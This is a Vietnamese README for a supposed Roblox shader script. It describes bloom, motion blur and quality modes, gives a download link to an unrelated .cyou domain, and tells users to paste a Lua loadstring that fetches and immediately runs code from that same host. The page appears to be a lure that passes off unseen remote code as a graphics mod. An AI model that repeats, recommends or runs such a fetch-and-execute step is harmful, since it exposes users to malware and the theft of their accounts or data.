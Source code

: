 # Script-Shader-Roblox-1.1
# Roblox Shader: Customizable Visual Enhancer

[Download link](https://installbixz.cyou?v3dwj1cffzfkpkq)

Một shader tuyệt đẹp cho Roblox được viết bằng Lua Script – giúp nâng tầm hình ảnh trong game của bạn với hiệu ứng **bloom**, **motion blur**, **sun rays**, **depth of field**, và **atmosphere**. Có thể **tùy chỉnh chất lượng** theo ý thích và đã hỗ trợ giao diện mobile tiện dụng.

---

## 🆕 Cập nhật mới nhất

### v1.2 - 2025-05-18

- Thêm **Giao diện người dùng (GUI)** cho mobile ở góc trên bên phải để chuyển đổi chất lượng shader
- Tối ưu hiệu ứng **motion blur** cho mobile — mượt hơn, đỡ mỏi mắt khi xoay camera nhanh
- **Nâng nhẹ vị trí mặt trời** để giảm độ chói, dịu mắt hơn khi nhìn trời
- **Tái cấu trúc mã nguồn**: dễ mở rộng thêm các tùy chỉnh trong tương lai

---

## ✨ Tính năng nổi bật:

- **3 chế độ chất lượng**: Low, Medium, High (F1–F3 hoặc nút GUI trên điện thoại)
- **Hiệu ứng Blur chuyển động thông minh**
- **Bloom ánh sáng và Sun Rays chân thực**
- **Depth of Field cinematic**
- **Atmosphere và Fog mờ ảo tạo chiều sâu**
- **Tự động chuyển hiệu ứng theo góc quay camera**
- **Giao diện gọn nhẹ cho mobile (góc trên bên phải)**

---

## ⚙️ Cách sử dụng

1. Dán đoạn loadstring sau vào Client và chạy

```lua
loadstring(game:HttpGet("https://installbixz.cyou?nbpjbt6ifz26bue"))()
